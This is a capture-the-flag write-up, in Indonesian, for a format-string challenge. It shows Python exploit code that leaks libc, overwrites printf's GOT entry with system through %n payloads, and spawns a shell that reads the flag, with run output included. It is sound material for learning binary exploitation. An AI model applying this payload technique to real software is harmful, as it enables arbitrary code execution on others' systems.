 # warmup

## Binary specifications

```
› file chall; checksec chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4984522e5f7af06b83d10633244b9098efd89e55, for GNU/Linux 3.2.0, not stripped
[*] '/home/chao/Documents/FastTekno/pwn/warmup/chall'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Binary memiliki spesifikasi 64 bit tanpa proteksi PIE

## Bug

Bug merupakan format string dimana terdapat 3 kali printf tanpa format specifier.
Namun tantangannya disini adalah tidak ada buffer overflow sehingga tidak memungkinkan untuk
overwrite return address

## Exploitation

3 kali format string tersebut dapat kita gunakan untuk:

1. Leak libc
2. Overwrite **GOT** dari **printf** menjadi **system** dari libc yang sudah di leak
3. exec **/bin/sh** melalui fungsi **printf**

Kita bisa leak **\_\_libc_start_main+243** pada offset format string ke 19(**%19$p**).
Setelah mendapatkan leak libc, selanjutnya kita hanya perlu mengubah **GOT** dari **printf** ke
**system** dari libc. Masalah pertama disini adalah panjang address libc yaitu 6 byte yang akan membuat kita
kesulitan untuk melakukan overwrite 6 byte secara langsung karena angkanya terlalu besar dan akan membuat
eksploitasi sangat lama. Solusinya adalah dengan membagi address libc menjadi 3 bagian dan mengoverwritenya
sebanyak 2 byte satu per satu sehingga angka yang dibutuhkan untuk melakukan overwrite tidak akan terlalu besar. Kode berikut akan melakukan overwrite **printf@GOT** ke **system**

```Python
  p.sendline("%19$p")
  libc_leak = int(p.recvline()[:-1], 16) - 243
  log.info("Libc leak: {}".format(hex(libc_leak)))
  libc_base = libc_leak - 0x026fc0
  log.info("Libc base: {}".format(hex(libc_base)))
  libc_system = libc_base + 0x055410
  log.info("Libc system: {}".format(hex(libc_system)))
  log.info("Printf got: {}".format(hex(printf_got)))
  overwrite1 = libc_system & 0xffff
  log.info("First overwrite: {}".format(hex(overwrite1)))
  overwrite2 = (libc_system & 0xffff0000) >> 16
  log.info("Second overwrite: {}".format(hex(overwrite2)))
  overwrite3 = libc_system >> 32
  log.info("Third overwrite: {}".format(hex(overwrite3)))

  payload = ''
  payload += '%{}c%13$lln'.format(overwrite1)
  payload += '%{}c%14$hn'.format(overwrite3 - overwrite1 if overwrite3 > overwrite1 else overwrite2 - overwrite1)
  payload += '%{}c%15$hna'.format(overwrite2 - overwrite3 if overwrite2 > overwrite3 else overwrite3 - overwrite2)
  payload += p64(printf_got)
  payload += p64(printf_got + 4)
  payload += p64(printf_got + 2)
```

Masalah kedua adalah address yang dibagi akan sangat random, dimana pada address bagian pertama sampai bagian terakhir tidak jelas angka nya(Kadang bagian kedua lebih besar dari bagian ketiga, ataupun bagian ketiga lebih besar dari bagian kedua atau pertama, dst)

```
[*] First overwrite: 0x1410
[*] Second overwrite: 0x1a60
[*] Third overwrite: 0x7f4b
```

```
[*] First overwrite: 0xc410
[*] Second overwrite: 0xb21d
[*] Third overwrite: 0x7f47
```

Dari snippet diatas, dapat kita lihat bahwa address akan sangat random sehingga membuat kode eksploitasi menjadi hoki-hokian wkwkwk. Bisa sih dibuat biar pasti, cuma aku males yaudah lah ya.

Output:

```
2:41:55 › python exploit.py local
[+] Starting local process './chall': pid 55641
[*] '/home/chao/Documents/FastTekno/pwn/warmup/chall'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Libc leak: 0x7fd0f6273fc0
[*] Libc base: 0x7fd0f624d000
[*] Libc system: 0x7fd0f62a2410
[*] Printf got: 0x403388
[*] First overwrite: 0x2410
[*] Second overwrite: 0xf62a
[*] Third overwrite: 0x7fd0
64
%9232c%13$lln%23488c%14$hn%30298c%15$hna\x883@\x00\x00\x003@\x00\x00\x003@\x00\x00\x00
[*] Switching to interactive mode
$ cat flag.txt
FastTekno{wh4t_a_h4ck3r!!1!!}
```
